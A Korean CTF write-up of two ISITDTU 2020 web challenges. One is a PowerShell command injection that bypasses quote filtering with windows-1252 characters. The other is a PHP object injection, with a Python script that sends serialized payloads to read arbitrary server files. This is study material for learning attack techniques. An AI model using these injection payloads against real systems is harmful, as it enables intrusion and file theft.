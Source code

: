 ```yaml
---
layout: post
date: 2020-10-14 00:00:11
title: "ISITDTU CTF 2020 Write Up"
categories: CTF
tags: [Command Injection, PHP Object Injection]
author:
  - Jeongwon Jo

---
```

## (Web) Unexploitable [984 pts]

> Unexploitable 문제는 Command Injection 문제입니다. 

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbBTsc9%2FbtqKTFXChn9%2FwZaECUxbarmKUIG078oke1%2Fimg.png)

문제로 들어오면 위처럼 Debug 모드로 들어갈 수 있는 링크가 존재합니다.

```php
<?php

include "config.php";
set_time_limit(1);
if (isset($_GET['debug']))
{
    show_source(__FILE__);
}

if (isset($_GET['host']) && !empty($_GET['host']))
{
    $host = $_GET['host'];

    $host = remove_quot($host);
    
    $san_host = escapeshellcmd($host);
    
    system("powershell -Command ping -n 1 '$san_host'");

}

?>

<a href="?debug">Debug</a> Debug
```
그래서 일단 Debug 모드로 들어오니 PHP 코드가 보이는 것을 볼 수 있습니다. 코드를 보면 host 값을 가져와서 remove_quot() 함수를 이용해서 모든 쿼터들을 제거하고, escapeshellcmd() 함수를 이용해서 특수 문자 앞에 슬래쉬를 붙여 $san_host 변수에 넣어주는 것을 볼 수 있습니다.

그리고 마지막으로 system() 함수를 실행시키는 데 이때 저희가 입력한 값이 들어가는 것을 볼 수 있습니다. 여기서 저는 `Command Injection` 문제라고 생각했습니다.

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FxgfaO%2FbtqKRNWmmGI%2FMKWWaBxMOhVtTCDK8dSNk0%2Fimg.png)

하지만 필터링에 의해서 싱글 쿼터를 사용할 수 없기 때문에 ping 명령어를 탈출할 수 없었습니다. 그러다가 우연히 문제 `Domain`만 치고 들어가니 해당 서버가 `windows server`인 `iis`를 사용하고 있는 것을 알 수 있었습니다.

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FArYWb%2FbtqKOB3u5Fo%2FsKRkzkc5MkgB09kZex9DgK%2Fimg.png)

그래서 윈도우 서버 특수 문자를 키워드로 검색을 해보니 `windows-1252` 방식으로 이루어진 특수 문자가 존재하는 것을 볼 수 있었습니다. 위 사진을 보시면 82, 91, 92는 싱글 쿼터를 대체할 수 있는 거 같고, 84, 93, 94는 더블 쿼터를 대체할 수 있는 거 같습니다.

한 번 이를 이용해서 ping 명령어를 탈출해서 다른 명령어를 실행시켜보겠습니다.

```
powershell -Command ping -n 1 '141.164.55.161'; ls ''
```
위와 같이 만들어주면 ping 명령어가 실행되고 나서 ls 명령어가 실행이 될 것입니다.

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fb8aQeq%2FbtqKShpoFPE%2FAbj0m62SOGD6Nrk3ZwiOhK%2Fimg.png)

저는 82, 91, 92 중에서 92를 사용해서 싱글 쿼터를 대체하고, 이를 이용해서 ls 명령어를 실행해보니 config.php, flag.php, index.php 파일이 존재하는 것을 알 수 있었습니다.

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbxipKP%2FbtqKMz6dIb7%2FoTfMTrk2YXcfBYQMScrgc1%2Fimg.png)

마지막으로 cat 명령어를 이용해서 `flag.php` 파일을 읽어보니 FLAG가 들어있는 것을 볼 수 있었습니다. 이번 문제를 풀면서 처음으로 IIS 서버에서 싱글 쿼터를 우회하는 방법을 알게 되었고, windows-1252 인코딩 방식이 있다는 것도 알 수 있었습니다.

> FLAG : ISITDTU{6d77c41b70c235d1b077ad65e274a3c948bf56eb}

---
# (Web) Warmup [XXX pts]

> Warmup 문제는 간단한 PHP Object Injection 였는데 엄청난 실수로 풀지 못 했습니다.

```php
<?php
class Read{
    public $flag;
    public function __wakeup(){
        echo file_get_contents($this->flag);
    }
}
if(isset($_GET['username'])){
    if(isset($_GET['password']))
    {
        $password = $_GET['password'];
        unserialize($password);
    }
}
highlight_file(__FILE__);
?>
```
해당 문제로 들어오게 되면 위와 같은 PHP 코드가 보이는 것을 볼 수 있습니다. 일단 입력값을 `unserialize()` 메서드를 이용해서 역직렬화를 해주는 것을 보아  `PHP Object Injection`이라고 생각이 들었습니다. 하지만 `__wakeup()` 함수를 처음 보아서 이와 관련해서 조금 검색을 해보았습니다. 

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fcqno3T%2FbtqKTG3qpro%2FjncPfrlLytMkGCkoyKjuWk%2Fimg.png)

검색을 해보니 `__wakeup()` 함수가 사용된 문제들이 많이 출제됐던 거 같습니다. 저만 이번에 처음 보는 거군요. 여하튼 위를 이용해서 `PHP Object Injection` 공격을 시도했습니다. 

```python
import requests

while(1):
	path = input("File Nmae : ")
	if path == '0':
		break
	path_len = len(path)
	url = 'http://35.220.140.18:5000/?username=&password=O:4:"Read":1:{s:4:"flag";s:' + str(path_len) + ':"' + path  +'";}'
	res = requests.get(url)
	print(res.text)
```
위와 같이 익스플로잇 코드를 작성해서 `/etc/passwd`, 아파치 설정 파일과 같은 것들을 모두 뒤져보았지만 결국 플래그를 획득하지 못 했습니다.

그러다가 오늘 오후 12시 45분쯤에 갑자기 생각이 나서 아는 분께 여쭤보니. robots.txt 파일에 플래그 파일이 있다고 하셨습니다. 너무 허무했습니다.

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdneNEx%2FbtqKROgS2KF%2FPCkQfbI9xsTU4Nxo1k1knK%2Fimg.png)

그래서 robots.txt 파일을 확인해 보니 `fl4g.php` 파일인 것을 알 수 있었습니다 :( fl4g.php 파일을 릭해 플래그를 획득할 수 있었습니다.

> FLAG : ISITDTU{4re_y0u_w4rm?}

---
